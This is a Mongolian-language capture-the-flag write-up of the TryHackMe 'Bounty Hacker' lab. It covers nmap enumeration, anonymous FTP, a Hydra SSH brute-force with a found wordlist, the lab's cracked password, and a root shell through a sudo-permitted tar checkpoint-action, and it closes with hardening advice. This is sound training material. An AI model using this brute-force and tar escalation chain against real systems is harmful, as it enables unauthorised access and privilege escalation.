

# Bounty Hacker

## Bounty Hacker — TryHackMe тайлан

Энэ тайлан нь Bounty Hacker room-ийн enumeration, initial access, privilege escalation алхмуудыг тайлбарлана.

### Зорилго

* Нээлттэй портууд болон үйлчилгээг тодорхойлох
* FTP-ээс хэрэгтэй файлуудыг татах
* SSH эрх олж авах
* `sudo` тохиргооны алдааг ашиглан root болох

### 1. Nmap scan

Эхлээд target машины IP хаягийг `MACHINE_IP` хувьсагчид хадгална.

```bash
nmap -sC -sV -oN nmap.txt MACHINE_IP
```

Scan-аас дараах үйлчилгээнүүд илэрнэ.

| Порт | Үйлчилгээ | Анхаарах зүйл               |
| ---- | --------- | --------------------------- |
| 21   | FTP       | Anonymous нэвтрэх боломжтой |
| 22   | SSH       | Дараагийн нэвтрэх цэг       |

FTP anonymous access-ийг шалгах нь чухал. Энэ нь файл, хэрэглэгчийн нэр, эсвэл нууц үгийн жагсаалт ил гаргаж болно.

<figure><figcaption></figcaption></figure>

### 2. FTP рүү нэвтрэх

Anonymous хэрэглэгчээр FTP-д холбогдоно.

```bash
ftp MACHINE_IP
```

Username асуухад `anonymous` гэж оруулна. Password асуухад хоосон орхиж болно. Дараа нь файлуудын жагсаалтыг авна.

```bash
ls -la
```

<figure><figcaption></figcaption></figure>

### 3. FTP файлуудыг татаж шалгах

Room-д `task.txt` болон `locks.txt` файлууд байна. Хоёуланг нь local машиндаа татна.

```bash
get task.txt
get locks.txt
bye
```

`task.txt` файл нь SSH хэрэглэгчийн нэрийг өгнө. Энэ room-д хэрэглэгч нь `lin`.

`locks.txt` нь боломжит нууц үгсийн wordlist юм. Үүнийг SSH brute-force хийхэд ашиглана.

<figure><figcaption></figcaption></figure>

### 4. Wordlist-ийг шалгах

Файлын агуулгыг шалгаж, brute-force хийхээс өмнө мэдээллийг баталгаажуулна.

```bash
cat task.txt
cat locks.txt
```

`locks.txt` файл дахь мөр бүрийг `lin` хэрэглэгчийн боломжит нууц үг гэж үзнэ.

<figure><figcaption></figcaption></figure>

### 5. SSH credential олох

Hydra ашиглан SSH service дээр wordlist-ийг шалгана.

```bash
hydra -l lin -P locks.txt ssh://MACHINE_IP
```

Амжилттай нууц үг нь `RedDr4gonSynd1c4te` байна. Энэ credential-ийг зөвхөн room-ийн машинд ашиглана.

<figure><figcaption></figcaption></figure>

### 6. SSH-ээр нэвтрэх

Олдсон credential-ээр `lin` хэрэглэгчээр холбогдоно.

```bash
ssh lin@MACHINE_IP
```

Нэвтэрсний дараа хэрэглэгчийн орчин болон эхний flag-ийн байршлыг шалгана.

```bash
whoami
pwd
ls -la
```

<figure><figcaption></figcaption></figure>

### 7. Sudo эрхийг шалгах

Одоогийн хэрэглэгч ямар командыг `sudo` ашиглан ажиллуулж болохыг шалгана.

```bash
sudo -l
```

`lin` хэрэглэгч `tar` командыг root эрхээр password-гүй ажиллуулах боломжтой. `tar` нь checkpoint action ашиглан дурын command ажиллуулж чадна.

<figure><figcaption></figcaption></figure>

### 8. Root shell авах

`tar`-ийн checkpoint action-оор root shell ажиллуулна.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Дараах командаар root болсон эсэхээ баталгаажуулна.

```bash
whoami
id
```

`whoami` нь `root` гэж буцаавал privilege escalation амжилттай болсон гэсэн үг.

<figure><figcaption></figcaption></figure>

### 9. Root flag шалгах

Root shell-ээс `/root` директорын агуулгыг харна.

```bash
ls -la /root
cat /root/root.txt
```

Flag-ийн утгыг тайлан эсвэл public repository-д оруулахгүй байх нь зөв. TryHackMe дээр өөрийн хариултаа оруулж баталгаажуулна.

<figure><figcaption></figcaption></figure>

### Дүгнэлт

Initial access нь anonymous FTP-ээр ил болсон credential material-аас эхэлсэн. Root access нь `tar`-д олгосон хэт өргөн `sudo` эрхээс үүссэн.

Ийм эрсдэлийг багасгахын тулд anonymous FTP-г идэвхгүй болгоно. Мөн `sudoers` файлд зөвхөн шаардлагатай команд, аргументыг зөвшөөрнө.
